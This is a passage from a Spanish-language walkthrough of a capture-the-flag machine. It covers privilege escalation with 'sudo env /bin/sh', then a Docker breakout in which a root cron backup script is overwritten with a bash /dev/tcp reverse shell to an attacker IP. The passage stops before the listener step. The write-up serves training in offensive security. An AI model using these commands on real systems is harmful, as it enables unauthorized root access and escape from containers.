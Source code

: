 ~~~zsh
www-data@2d41b5f09911:/var/www/html$ sudo -l
Matching Defaults entries for www-data on 2d41b5f09911:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin
~~~

- Podemos spawnear una shell de la siguiente forma:

~~~bash
www-data@2d41b5f09911:/var/www/html$     sudo env /bin/sh
# id
id: not found
~~~

- Al parecer el usuario root no tiene una path definida porque no funcionan algunas rutas relativas.
- Podemos exportarle una path por defecto de la siguiente manera:

~~~bash
# export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/local/games:/usr/games:$PATH
# id
uid=0(root) gid=0(root) groups=0(root)
~~~
***
### Docker breakout & root:

- Utilicé linpeas y encontré algo bastante curioso:

~~~bash
╔══════════╣ Backup files (limited 100)
-rw-r--r-- 1 root root 2949120 Apr  8 22:28 /opt/backups/backup.tar
-rwxr--r-- 1 root root 69 Mar 10  2020 /opt/backups/backup.sh
~~~

- Tenemos unas backups.
- Revisando el archivo tiene toda la pinta de ser una cronjob, además lo comprobé borrando el archivo `.tar` que genera, y este volvió a aparecer:

~~~bash
root@2d41b5f09911:/opt/backups# cat backup.sh 
#!/bin/bash
tar cf /root/container/backup/backup.tar /root/container
~~~

- No tenemos editores de texto en el docker, así que podemos sobreescribir el archivo con `echo`:

~~~bash
root@2d41b5f09911:/opt/backups# echo '#!/bin/bash' > backup.sh && echo "bash -i >& /dev/tcp/10.2.60.167/4444 0>&1" >> backup.sh
root@2d41b5f09911:/opt/backups# cat backup.sh 
#!/bin/bash
bash -i >& /dev/tcp/10.2.60.167/4444 0>&1
~~~

- Solo bastaría con ponernos en escucha y ganaríamos acceso a la máquina real:
